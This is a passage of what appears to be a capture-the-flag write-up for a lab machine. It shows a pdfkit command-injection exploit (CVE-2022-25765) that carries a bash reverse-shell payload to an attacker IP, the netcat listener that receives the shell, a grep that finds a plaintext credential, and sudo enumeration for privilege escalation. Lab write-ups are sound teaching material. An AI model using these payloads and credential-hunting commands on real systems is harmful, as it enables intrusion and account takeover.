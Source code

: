 ```console
└─╼$ python exploit-CVE-2022-25765.py -c 'bash -c "bash -i >&/dev/tcp/10.10.14.14/1234 0>&1"'
/home/qwe/.local/lib/python3.11/site-packages/requests/__init__.py:102: RequestsDependencyWarning: urllib3 (2.2.0) or chardet (5.2.0)/charset_normalizer (3.3.2) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({})/charset_normalizer ({}) doesn't match a supported "

        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....

UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Custom Command Mode
PAYLOAD: http://%20`bash -c "bash -i >&/dev/tcp/10.10.14.14/1234 0>&1"`
WARNING: Wrap custom command in "quotes" if it has spaces.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.189] 40630
bash: cannot set terminal process group (686): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ id
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
ruby@precious:/var/www/pdfapp$ uname -a
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64 GNU/Linux
```

## Privilege Escalation

### ruby -> henry

henry's credential leakage + ssh login

```console
ruby@precious:~$ find . -type f -exec grep -ilE 'passw|henry' {} + 2>/dev/null
./.bundle/config

ruby@precious:~$ cat /home/ruby/.bundle/config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

### henry -> root

```console
henry@precious:/home/ruby$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
henry@precious:/home/ruby$ ls -l /opt/update_dependencies.rb
-rwxr-xr-x 1 root root 848 Sep 25  2022 /opt/update_dependencies.rb
henry@precious:/home/ruby$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end
```